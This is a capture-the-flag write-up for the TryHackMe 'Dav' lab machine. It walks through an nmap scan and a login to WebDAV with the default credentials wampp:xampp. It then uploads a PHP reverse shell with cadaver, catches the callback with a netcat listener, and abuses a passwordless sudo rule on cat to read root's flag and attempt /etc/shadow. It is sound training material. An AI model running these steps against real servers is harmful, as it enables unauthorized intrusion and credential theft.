








# THM - Dav

#### Ip: 10.10.187.168
#### Name: Dav
#### Difficulty: Easy

----------------------------------------------------------------------


```text
Read user.txt and root.txt
```

### Enumeration

Lets scan the target using Nmap. Here I will use the `-p-` flag to scan all TCP ports, as well as the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/THM/Dav]
└─$ sudo nmap -p-  --min-rate 10000 10.10.187.168 -sC -sV
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-14 11:56 CDT
Nmap scan report for 10.10.187.168
Host is up (0.22s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.09 seconds
```

Heading to the site on port 80 we find a default Apache landing page:



With a name like Dav, I guessed the machine likely had to incorporate webdav, so I navigated to http://10.10.187.168/webdav/ and was prompted to authenticate.



Luckily here I was able to use the default webdav credentials of wampp:xampp and was able to login:



There is a password.dav file, but I'm not sure how useful that is to us as we already have working credentials.

### Exploitation

Lets grab a copy of PentestMonkey's php-reverse-shell.php and update our IP and port we'll be listening on:



We can then login using cadaver and use the `put` function to load our shell:

```text
┌──(ryan㉿kali)-[~/THM/Dav]
└─$ cadaver http://10.10.187.168/webdav/
Authentication required for webdav on server `10.10.187.168':
Username: wampp
Password: 
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
        passwd.dav                            44  Aug 25  2019
dav:/webdav/> put php-reverse-shell.php
Uploading php-reverse-shell.php to `/webdav/php-reverse-shell.php':
Progress: [=============================>] 100.0% of 5519 bytes succeeded.
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
        passwd.dav                            44  Aug 25  2019
        php-reverse-shell.php               5519  Sep 14 11:29
Terminated by signal 2.
Connection to `10.10.187.168' closed.
```

We can confirm the shell was uploaded:



And if we click on it we trigger the call back to our listener:

```text
┌──(ryan㉿kali)-[~/THM/Dav]
└─$ nc -lnvp 8888                                      
listening on [any] 8888 ...
connect to [10.2.6.181] from (UNKNOWN) [10.10.187.168] 41040
Linux ubuntu 4.4.0-159-generic #187-Ubuntu SMP Thu Aug 1 16:28:06 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 09:33:14 up 21 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ hostname
ubuntu
$ python -c 'import pty;pty.spawn("/bin/bash")'

www-data@ubuntu:/$
```

From here we can grab the user.txt flag:



### Privilege Escalation

Running `sudo -l` we see we have the permissions to use cat and read any file we'd like to on the system:

```text
www-data@ubuntu:/home/merlin$ sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
```

So we can grab the final flag by running:

```text
sudo /bin/cat /root/root.txt
```



You can see in the screen shot above I tried to access a few other files in order to get an actual shell as root, rather than just grabbing the flag, but had no luck. 

I couldn't recall having ever seen a (!) character in place of the root password hash in the `/etc/shadow` file before, but apparently that means the password is locked, which led me to believe this was as far as I was getting in the challenge.



Thanks for following along!

-Ryan
